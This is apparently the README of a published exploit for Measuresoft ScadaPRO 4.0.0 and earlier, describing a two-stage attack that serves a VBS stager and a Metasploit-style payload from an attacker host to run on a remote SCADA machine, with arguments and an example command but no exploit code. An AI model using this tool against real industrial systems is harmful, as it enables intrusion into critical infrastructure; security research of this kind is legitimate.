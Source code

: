 # Measuresoft-ScadaPRO
2-staged exploit for vulnerability that arises in Measuresoft ScadaPRO 4.0.0 (and earlier) versions. <br>
This exploits doesn't perform RCE, which makes it unique it serves payload through the locally hosted web server. <br>
You should generate your own or metasploit payload in this directory which you want to be executed on remote scada host.

## Requirements
```
Python 3.x
Libraries:
argparse
requests
sys
os
```

## CLI parse explanation
```
rhost = remote host ip address
rport = remote host port used for exploitation
lhost = local (or remote) host which will be used to serve payload
lport = local (or remote) host port used for serving payload
payload_name = file name for payload served
stager_name = file name for vbs script which is stager
temp_folder = directory where vbs stager will be hosted
```
## Usage
`ALL ARGUMENTS MUST BE USED` <br>
Usage: `python3 exploit.py [rhost] [rport] [lhost] [lport] [payload name] [stager name] [temp directory]` <br>
Example: `python3 exploit.py 192.168.1.1 502 192.168.1.2 8080 payload.exe stager.vbs /tmp`

# Disclaimer
### Do not use this against targets that did not give you authorization to do it. I am not responsible for any misusage of this program.


```
  _________                  .___       
 /   _____/ ____ _____     __| _/____   
 \_____  \_/ ___\\__  \   / __ |\__  \  
 /        \  \___ / __ \_/ /_/ | / __ \_
/_______  /\___  >____  /\____ |(____  /
        \/     \/     \/      \/     \/ 
```
